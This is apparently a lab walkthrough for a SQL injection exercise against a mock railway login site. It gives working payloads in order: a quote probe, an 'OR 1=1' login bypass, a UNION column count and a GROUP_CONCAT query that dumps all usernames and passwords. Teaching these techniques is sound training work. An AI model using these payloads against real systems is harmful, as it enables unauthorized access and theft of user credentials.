


# SQL Injection

**Soldier, attention to detail is critical throughout our entire mission, do not fail us!**

1. Navigate to website [NMBS EXN website](https://www.nmbs.exn.be/)

    https://www.nmbs.exn.be/

1. Navigate to the **Login Page** by clicking on `My NMBS`

    

    

    <div class="purple">

    This is where the magic happens. Behind this login page lies a database, and every login attempt triggers a query to verify the username and password.
    
    **Let’s test its defenses.**
    </div>
    <br>


----

### Vulnerable or not?

First, we’ll test for SQL injection vulnerability.

1. Enter the following character in the **Username field**

    ```
    '
    ```

    Purpose: To see if the application throws a SQL error indicating the presence of an injection vulnerability.

    

    **Oh yes, success: the website is vulnerable against SQL injections**

### SQLi Exploit

1. Let’s probe deeper into the SQL injection vulnerability:

    ```
    ' OR 1=1 -- '
    ```

    **Remark**:  `-- ‘` =   two dashes, one space and one single quote.

    **Result**: Success, the website logs in as the first user in the database, which is Freddie Guilty. Congrats, you successfully bypassed the website authenitcation.

    

    <div class="info">

    **Payload**: This is a classic SQL injection technique used to bypass authentication. Effect: The `OR 1=1` condition **always** evaluates to **true**, effectively bypassing the password check. 
    The `-- '` comments out the rest of the query, so the password condition check performed by the code is actually ignored.
    </div>


    <br>

    <div class="purple">

    Now that you’ve gained access, it’s time to gather information about the users of this site. **Where would this information be stored?**
    
    
    > Go to the `Mijn persoonlijke gegevens` page and have a look around.
    </div>    


---


### Extract data from the database

1. First, determine the number of columns in the database. 

    This is a **trial and error**!
    
    Let's try with 6 columns:

    ```
    ' UNION SELECT 1,2,3,4,5,6 –- '
    ```

    Keep using trial and error until you discover the correct number.
        

1. Answer: 

    ```
    ' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11 -- ' 
    ```

    Navigate to the `Mijn persoonlijke gegevens` page.

    

    <div class="purple">

    Notice: each data **field** has now been replaced with a number. This number matches the column ID within the User tabel stored in the SQL Database.
    </div>

---

### Construct a SQL query to extract all usernames and passwords

1. Dump the entire database using the following command:

    ```
    ' UNION SELECT 1, (SELECT GROUP_CONCAT(CONCAT(id, ' | ', username, ' | ', password) SEPARATOR '<br>') FROM (SELECT * FROM users LIMIT 20) AS first_part), 3, 4, (SELECT GROUP_CONCAT(CONCAT(id, ' | ', username, ' | ', password) SEPARATOR '<br>') FROM (SELECT * FROM users LIMIT 20 OFFSET 20) AS second_part), 6, 7, (SELECT GROUP_CONCAT(CONCAT(id, ' | ', username, ' | ', password) SEPARATOR '<br>') FROM (SELECT * FROM users LIMIT 20 OFFSET 40) AS third_part), 9, 10, 11 -- t'
    ```

    
    
    <div class="purple">

    **Well done!** You’ve extracted the complete database with all the users and their passwords. 
    </div>

<br>


<br>

<div class="info">

Details about the SQL Query if you are intrigued:

**Formatting**: we use `<br>` **HTML tag** between all users instead off a semicolon `;` to obtain a neatly formatted output.

**Data truncation**: The command splits the output into different parts and display it in **fields** `5` and `8`. If you split the data by 20 users, you won’t hit the **maximum field size** limit:

- The first GROUP_CONCAT fetches the first 20 users and concatenates their ID, username, and password.

- The second GROUP_CONCAT does the same for users 21 to 40.

- The third GROUP_CONCAT handles users 41 to 60.

</div>


    